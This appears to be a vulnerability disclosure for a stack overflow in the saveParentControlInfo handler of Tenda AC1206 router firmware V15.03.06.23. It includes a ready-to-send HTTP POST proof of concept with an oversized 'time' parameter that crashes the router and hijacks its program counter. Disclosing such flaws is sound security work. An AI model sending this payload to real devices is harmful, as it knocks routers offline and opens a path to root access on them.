#  Tenda AC1206 (V15.03.06.23) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.tenda.com.cn
- Firmware download address ： https://www.tenda.com.cn/download/detail-2766.html

### Product Information

Tenda AC1206 V15.03.06.23, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The Tenda AC1206 (V15.03.06.23) was found to have a stack overflow vulnerability in the saveParentControlInfo function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220804202859967](img/image-20220804202859967.png)

In the `saveParentControlInfo` function,`time`(the value of `time`) we entered is formatted using the `sscanf` function and in the form of `%[^-]-%s`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `starttime` or `endtime`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded;
Content-Length: 340
Origin: http://192.168.0.1
DNT: 1
Connection: close
Referer: http://192.168.0.1/index.html
Cookie: ecos_pw=eee:language=cn

time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa-bbb
```

![image-20220804202006797](img/image-20220804202006797.png)

 By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image-20220804235435725](img/image-20220804235435725.png)

As shown in the figure above, we can hijack PC registers.

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell.

